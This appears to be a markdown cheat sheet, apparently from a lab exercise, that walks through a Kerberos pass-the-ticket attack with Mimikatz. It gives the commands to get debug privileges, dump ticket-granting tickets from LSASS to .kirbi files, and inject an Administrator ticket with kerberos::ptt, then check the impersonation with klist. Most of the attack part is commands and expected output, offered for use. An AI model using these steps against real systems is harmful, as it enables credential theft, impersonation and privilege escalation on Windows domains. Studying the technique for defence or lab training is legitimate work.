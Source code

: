 # Pass The Ticket Attack

### How it works
1) Mimikatz dumps the TGT from LSASS (it will return a kirbi ticket)
2) Pass the ticket and acts as it's original owner

## Dump the ticket
```cmd
mimikatz.exe
privilege::debug
```

Ensure this output is '20'OK
If it doesn't, it means that you don't have admin privileges

```cmd
sekurlsa::tickets /export
```

This will export the ticket (.kirbi) to the directory you're in


## PASS THE TICKET
If you leave mimikatz, you will see that there are tickets in the directory. 
Copy the one that is interesting for you and return to mimiktatz

```cmd 
mimikatz.exe
```

This will cache the ticket and impersonate it

```cmd
kerberos::ptt [0;193f8c]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
```

- The ticket looks like (it's the name of the file): `[0;193f8c]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi`
- The output should be `* File : <Stuff> OK`

## List cached tickets
We are just verifying that we successfully impersonated the ticket by listing our cached tickets. 
```cmd
klist
```
